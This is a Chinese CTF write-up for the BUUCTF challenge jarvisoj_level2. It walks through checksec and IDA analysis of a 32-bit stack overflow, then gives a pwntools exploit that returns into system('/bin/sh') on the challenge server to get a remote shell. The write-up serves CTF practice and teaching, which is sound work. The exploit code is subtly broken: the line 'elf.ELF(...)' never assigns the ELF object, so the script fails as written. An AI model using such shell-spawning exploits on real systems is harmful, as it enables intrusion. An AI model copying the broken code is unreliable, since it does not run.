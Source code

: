 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#jarvisoj_level2)

我们先用checksec一下，32位，开启了栈不可执行，大概率是栈溢出

![image-20240430210615256](./image/image-20240430210615256.png)

首先获取到文件，使用ida打开，F5进行反汇编

![image-20240430210050183](image/image-20240430210050183.png)

可以看到有system函数，然后进去vulnerable_function()

![image-20240430210200134](image/image-20240430210200134.png)

看到了一个常规的栈溢出，我们再去寻找一个后门函数，找了一遍，只发现有system和"/bin/sh"，所以拿来构造payload

![image-20240430210421693](image/image-20240430210421693.png)

# exp

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
elf.ELF('./level2')
p = remote("node5.buuoj.cn",27049)
system_addr = elf.sym['system']	#这样可以准确拿到地址
bin_sh = next(elf.search(b'/bin/sh'))
payload = b'A'*0x8c + p32(system_addr) + p32(0) + p32(bin_sh)	#加上p32(0)，是因为前面调用了system函数，后面要接一个返回地址，才符合32位的函数调用
p.recv()
p.sendline(payload)
p.interactive()
```